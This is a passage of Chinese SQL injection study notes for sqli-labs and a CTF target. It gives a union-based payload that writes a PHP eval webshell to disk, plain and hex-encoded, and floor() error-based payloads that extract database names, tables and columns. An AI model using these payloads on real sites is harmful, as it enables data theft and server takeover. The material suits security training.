 

- union写入文件

  ```sql
  //利用union注入写入一句话木马  into outfile 和 into dumpfile 都可以
  http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,'<?php @eval($_POST[aaa]);?>'  into outfile  'e:/4.php' #
   
  // 可以将一句话木马转换成16进制的形式
  http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile  'e:/4.php' #
  ```

  

#### 报错注入

**利用前提:**页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql_error()
优点: 不需要显示位
缺点: 需要输出 mysql_error( )的报错信息

- ### **floor报错注入**

  floor报错注入是利用 count()函数 、rand()函数 、floor()函数 、group by 这几个特定的函数结合在一起产生的注入漏洞。缺一不可

  ```sql
  // 我们可以将 user() 改成任何函数，以获取我们想要的信息。具体可以看文章开头关于information_schema数据库的部分
  http://127.0.0.1/sqli/Less-1/?id=-1'  and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a) #
   
  //将其分解
  (select 1 from (Y)a)
   
  Y= select count(*) from information_schema.tables group by concat(Z)
   
  Z= user(),floor(rand(0)*2)           //将这里的 user() 替换成我们需要查询的函数
  ```

  **payload:**and (select 1 from (select count(\*),concat((database()),floor(rand(0)\*2))x from information_schema.tables group by x)a)
  
  [![RY6VfJ.png](https://z3.ax1x.com/2021/06/27/RY6VfJ.png)](https://imgtu.com/i/RY6VfJ)
  
- floor报错注入总结

  ```
  这里其实是二次查询注入
  这里在利用相关函数时，使用了两次select查询
  公式：
  ?id=1 and 1=2 union select 1 from (select+count(*),concat(floor(rand(0)*2),(测试语句))a from information_schema.tables group by a)b
  
  查看当前数据库版本：
  ?id=1 and 1=2 union select 1 from (select+count(*),concat(floor(rand(0)*2),version())a from information_schema.tables group by a)b
  
  查看数据库名：
  ?id=1 and 1=2 union select 1 from (select+count(*),concat(floor(rand(0)*2),database())a from information_schema.tables group by a)b
  
  查询表名：
  http://222.18.158.243:4606/?id=1 and 1=2  union select 1 from (select+count(*),concat(floor(rand(0)*2),(select table_name from information_schema.tables where table_schema=database() limit 1,1))a from information_schema.tables group by a)b
  
  查询字段名：
  http://222.18.158.243:4606/?id=1 and 1=2  union select 1 from (select+count(*),concat(floor(rand(0)*2),(select column_name from information_schema.columns where table_name='flag' limit 0,1))a from information_schema.tables group by a)b
  ```